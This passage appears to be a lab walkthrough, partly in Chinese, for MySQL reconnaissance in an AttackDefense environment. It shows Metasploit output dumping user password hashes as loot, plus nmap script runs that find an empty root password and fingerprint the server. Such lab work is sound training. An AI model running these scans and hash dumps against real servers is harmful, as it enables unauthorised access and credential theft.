 ```
[+] 192.41.63.3:3306      - Saving HashString as Loot: filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[+] 192.41.63.3:3306      - Saving HashString as Loot: ultra:*827EC562775DC9CE458689D36687DCED320F34B0
[+] 192.41.63.3:3306      - Saving HashString as Loot: guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
[+] 192.41.63.3:3306      - Saving HashString as Loot: sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
[+] 192.41.63.3:3306      - Saving HashString as Loot: udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
[+] 192.41.63.3:3306      - Saving HashString as Loot: sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
[*] 192.41.63.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Check whether anonymous login is allowed on MySQL Server.

`No, it is not allowed.`

[mysql-empty-password](https://nmap.org/nsedoc/scripts/mysql-empty-password.html)

使用root或anonymous的空密码检查 MySQL 服务器。

```
root@attackdefense:~# nmap -sV --script=mysql-empty-password 192.41.63.3
Starting Nmap 7.70 ( https://nmap.org ) at 2022-08-26 03:13 UTC
Nmap scan report for target-1 (192.41.63.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
| mysql-empty-password: 
|_  root account has empty password
MAC Address: 02:42:C0:29:3F:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.49 seconds
```

Check whether “InteractiveClient” capability is supported on the MySQL server.

`Yes, it is supported on the MySQL server.`

[mysql-info](https://nmap.org/nsedoc/scripts/mysql-info.html)

连接到 MySQL 服务器并打印协议和版本号、线程 ID、状态、功能和密码 salt 等信息。

如果执行了服务检测并且服务器似乎正在阻止我们的主机或由于连接过多而被阻止，则此脚本不会运行（请参阅端口规则）。

```
root@attackdefense:~# nmap 192.41.63.3 -p 3306 -sV --script=mysql-info
Starting Nmap 7.70 ( https://nmap.org ) at 2022-08-26 03:19 UTC
Nmap scan report for target-1 (192.41.63.3)
Host is up (0.000076s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql   MySQL 5.5.62-0ubuntu0.14.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.62-0ubuntu0.14.04.1
|   Thread ID: 54
|   Capabilities flags: 63487
|   Some Capabilities: FoundRows, LongPassword, ODBCClient, IgnoreSigpipes, InteractiveClient, LongColumnFlag, IgnoreSpaceBeforeParenthesis, SupportsCompression, Support41Auth, ConnectWithDatabase, SupportsLoadDataLocal, SupportsTransactions, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, Speaks41ProtocolNew, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
```